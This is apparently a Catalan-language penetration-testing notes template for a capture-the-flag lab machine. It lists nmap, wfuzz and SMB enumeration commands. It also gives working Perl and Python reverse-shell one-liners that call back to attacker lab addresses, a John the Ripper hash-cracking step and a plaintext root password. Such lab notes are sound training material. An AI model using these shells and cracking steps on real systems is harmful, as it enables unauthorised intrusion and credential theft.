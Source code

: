# Recon

```bash
ping -c 1 10.10.10.94
```

```bash
nmap -p- --open -T5 -v -n 10.10.10.94
```

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.94 -oG allPorts 
extractPorts allPorts
nmap -sCV -p1880 10.10.10.94 -oN targeted

#UDP
nmap -sU --top-ports 200 10.10.10.94
```

# Enumeration

## Services

### TCP

Web:

```bash
whatweb http://10.10.10.94:1880
whatweb https://10.10.10.94:1880
```

```bash
nmap --script http-enum -p1880 10.10.10.94 -oN webScan
```

Certificat SSL (domini o alguna cosa interessant):

```bash
openssl s_client -connect 10.10.10.154:443
```

Fuzzing amb WFuzz:

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.94/FUZZ
```

SMB:

```bash
crackmapexec smb 10.10.10.94
smbclient -L 10.10.10.94 -N
smbmap -H 10.10.10.94 -u 'null'
```

### UDP

NA

# Exploitation

Escolta per la reverse shell:

```bash
nc -nlvp 443
```

Reverse shell en perl:

```bash
perl -e 'use Socket;$i="10.10.14.29";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Reverse shell en python:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::101b",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Post Exploitation

Ajustar la TTY:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

## System Information

## Installed Applications

## Running Processes

## Scheduled Jobs-Tasks

## Editable Service

## Network

## Users and Groups

## Files on the System

## System Exploitation

## Privilege Escalation

### Output from Privesc Scripts


# High Value Information

## Hashes

```bash
echo "root:*F435735A173757E57BD36B09048B8B610FF4D0C4" > credentials.txt
john --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt
```

## Passwords

```
root:toor
```

## Proof - Screenshots


---

# Notes

Fill in results or other information about your target here:

{{title}}
{{date:DD-MM:YYYY}} {{time}}